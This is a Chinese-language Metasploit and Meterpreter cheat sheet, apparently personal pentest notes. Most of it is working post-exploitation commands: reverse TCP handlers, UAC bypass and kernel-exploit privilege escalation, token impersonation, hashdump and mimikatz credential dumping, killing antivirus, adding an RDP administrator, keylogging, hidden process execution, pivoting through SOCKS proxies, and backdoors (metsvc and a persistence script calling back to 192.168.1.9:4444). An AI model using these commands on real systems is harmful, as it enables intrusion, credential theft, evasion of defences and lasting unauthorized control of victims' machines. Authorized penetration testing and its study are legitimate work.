 # metasploit 小记

---

## Reference
- [linux - Metasploit: Module database cache not built yet, using slow search - Server Fault](https://serverfault.com/questions/761672/metasploit-module-database-cache-not-built-yet-using-slow-search)
- [Metasploit入门用法(主动攻击) - CSDN博客](https://blog.csdn.net/wsh19930305/article/details/72855660)
- [meterpreter必知必会的15个命令](https://www.4hou.com/tools/14185.html)
- [萌新科普 手把手教你如何用MSF进行后渗透测试](https://www.anquanke.com/post/id/164525)

---

**添加一个新的 exploit**

1. 在 `/usr/share/metasploit-framework/modules/exploits/` 目录下新建一个自定义文件夹 aaatest,将 rb 脚本扔进去
2. 启动 metasploit
3. 输入 reload_all 重新加载所有模块
4. use exploit/aaatest/exp(输入的时候可以用 tab 补全，如果不能补全说明就有问题)

---

## meterpreter

### 快速上手
```bash
shell   # 获取目标主机的 cmd shell
getsystem   # 命令可以提权到本地系统权限
sysinfo # 显示系统名,操作系统,架构和语言等。
```

### 获取会话
**handler**
```bash
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST
set LPORT
exploit -j  # 后台执行
```

**cmdshell 升级为 meterpreter**

如果最开始获取的是 cmdshell,后来发现这台机器非常适合作为测试其它终端的跳板,这个时候 cmdshell 的功能已经不能满足需要,升级成 meterpreter 就十分有必要。`sessions -u "id"` 将该 cmdshell 升级成 meterpreter

### 提权
**绕过 UAC**

通常 webshell 的权限都比较低,能够执行的操作有限,没法查看重要文件、修改系统信息、抓取管理员密码和 hash、安装特殊程序等,所以我们需要获取系统更高的权限

```bash
use exploit/windows/local/bypassuac # 一系列都可用
use exploit/windows/local/bypassuac_eventvwr
sessions    # 查看目前的 session
sessions -k # 杀死所有 session
set session # 设为你需要 exploit 的 session
```

**利用系统漏洞提权**

```bash
use exploit/windows/local/ms13_081_track_popup_menu # 以 ms13-081 为例
set session
```

### 进程迁移

当 meterpreter 单独作为一个进程运行时容易被发现,如果将它和系统经常运行的进程进行绑定,就能够实现持久化。
```bash
getpid  # 查看当前会话的进程id
ps  # 查看目标运行的进程
migrate pid # 绑定/迁移进程
```

### 令牌假冒

在用户登录 windows 操作系统时,系统都会给用户分配一个令牌(Token),当用户访问系统资源时都会使用这个令牌进行身份验证,功能类似于网站的 session 或者 cookie。

msf提供了一个功能模块可以让我们假冒别人的令牌,实现身份切换,如果目标环境是域环境,刚好域管理员登录过我们已经有权限的终端,那么就可以假冒成域管理员的角色。
```bash
getuid  # 查看当前用户
use incognito   # 进入该模块
list_tokens -u  # 查看存在的令牌
impersonate_token 用户名    # 令牌假冒
# 注意用户名的斜杠需要写两个。

getuid  # 查看是否切换成功
```

### 获取凭证
```bash
run hashdump

load mimikatz   # 加载 mimikatz 模块
wdigest
kerberos
```

### 操作文件系统
**基本操作**
```bash
ls：列出当前路径下的所有文件和文件夹。
pwd 或 getwd：查看当前路径
search：搜索文件,使用 search -h查看帮助。
cat：查看文件内容,比如 cat test.txt。
edit：编辑或者创建文件。和 Linux 系统的 vm 命令类似,同样适用于目标系统是 windows 的情况。
rm：删除文件。
cd：切换路径。
mkdir：创建文件夹。
rmdir：删除文件夹。
getlwd 或 lpwd：查看自己系统的当前路径。
lcd：切换自己当前系统的目录。
lls：显示自己当前系统的所有文件和文件夹。
```

**上传和下载**
```bash
upload <file> <destination> # 上传文件到 Windows 主机
# 注意：使用 -r 参数可以递归上传上传目录和文件

download <file> <path to save>  # 从 windows 主机下载文件
# 注意：Windows 路径要使用双斜线
# 如果我们需要递归下载整个目录包括子目录和文件,我们可以使用 download -r 命令
```

### 其它操作
**关闭防病毒软件**
```bash
run killav
run post/windows/manage/killav
```

**操作远程桌面**
```bash
run post/windows/manage/enable_rdp  # 开启远程桌面
run post/windows/manage/enable_rdp username=test password=test  # 添加远程桌面的用户(同时也会将该用户添加到管理员组)
```

**截屏**

`screenshot`

**键盘记录**
```bash
keyscan_start：开启键盘记录功能
keyscan_dump：显示捕捉到的键盘记录信息
keyscan_stop：停止键盘记录功能
```

**执行程序**
```bash
execute -f <path> [options] 在目标主机上执行 exe 文件
-H：创建一个隐藏进程
-a：传递给命令的参数
-i：跟进程进行交互
-m：从内存中执行
-t：使用当前伪造的线程令牌运行进程
-s：在给定会话中执行进程
```

### 端口转发和内网代理
**portfwd**

portfwd 是 meterpreter 提供的端口转发功能,在 meterpreter 下使用 portfwd -h 命令查看该命令的参数。
```bash
portfwd add -l 2222 -r 1.1.1.1 -p 3389  # 将1.1.1.3的3389端口转发到本地的2222端口。
-l：本地监听端口
-r：内网目标的 ip
-p：内网目标的端口
```

**pivot**

pivot 是 msf 最常用的代理,可以让我们使用 msf 提供的扫描模块对内网进行探测。
```bash
route add 内网ip 子网掩码 session的id   # 添加一个路由
route print

如果其它程序需要访问这个内网环境,就可以建立 socks 代理
msf 提供了3个模块用来做 socks 代理。
auxiliary/server/socks4a
auxiliary/server/socks5
auxiliary/server/socks_unc

use auxiliary/server/socks4a
SRVHOST：监听的 ip 地址,默认为 0.0.0.0,一般不需要更改。
SRVPORT：监听的端口,默认为 1080。
直接运行run命令,就可以成功创建一个 socks4 代理隧道,在 linux 上可以配置 proxychains 使用,在 windows 可以配置 Proxifier 进行使用。
```

### 后门

Meterpreter 的 shell 运行在内存中,目标重启就会失效,如果管理员给系统打上补丁,那么就没办法再次使用 exploit 获取权限,所以需要持久的后门对目标进行控制

**metsvc**
```bash
run metsvc
# 命令运行成功后会在 C:WindowsTEMP 目录下新建随机名称的文件夹,里面生成3个文件(metsvc.dll、metsvc-server.exe、metsvc.exe)
# 同时会新建一个服务,显示名称为 Meterpreter,服务名称为 metsvc,启动类型为"自动",绑定在 31337 端口。

use exploit/multi/handler
set payload windows/metsvc_bind_tcp
set rhost xxx.xxx.xxx.xxx
set lport 31337
```

**persistence**
```bash
run persistence -X -i 10 -r 192.168.1.9 -p 4444
-A：安装后门后,自动启动 exploit/multi/handler 模块连接后门
-L：自启动脚本的路径,默认为 %TEMP%
-P：需要使用的 payload,默认为 windows/meterpreter/reverse_tcp
-S：作为一个服务在系统启动时运行(需要 SYSTEM 权限)
-T：要使用的备用可执行模板
-U：用户登陆时运行
-X：系统启动时运行
-i：后门每隔多少秒尝试连接服务端
-p：服务端监听的端口
-r：服务端 ip
```
